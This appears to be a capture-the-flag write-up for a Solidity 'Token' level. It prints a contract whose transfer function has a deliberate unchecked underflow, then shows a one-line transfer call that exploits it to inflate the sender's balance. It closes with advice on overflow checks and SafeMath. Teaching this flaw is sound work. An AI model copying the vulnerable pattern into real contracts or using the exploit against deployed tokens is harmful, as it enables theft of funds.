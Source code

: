 # Token 

## Challenge Statement

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

    What is an odometer?

## Analysis

odometer : an instrument for measuring the distance travelled by a wheeled vehicle.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  // contract is set with 20 tokens
  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  // call transfer with own address + amount
  // looks like possible overflow?
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // sender must already have more than value or overflow
    balances[msg.sender] -= _value; // update values of sender by 'overflow' :)
    balances[_to] += _value; // update value of _to by value
    return true;
  }

  // check balance of the owner
  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Solution

Exploit the underflow here since the safemath library is not in use, just send a large amount, e.g:
```
await contract.transfer('<random_contract/wallet>', '100000000000000000000000');
```


## Moral

Overflows are very common in solidity and must be checked for with control statements such as:

if(a + c > a) {
  a = a + c;
}

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

a = a.add(c);

If there is an overflow, the code will revert.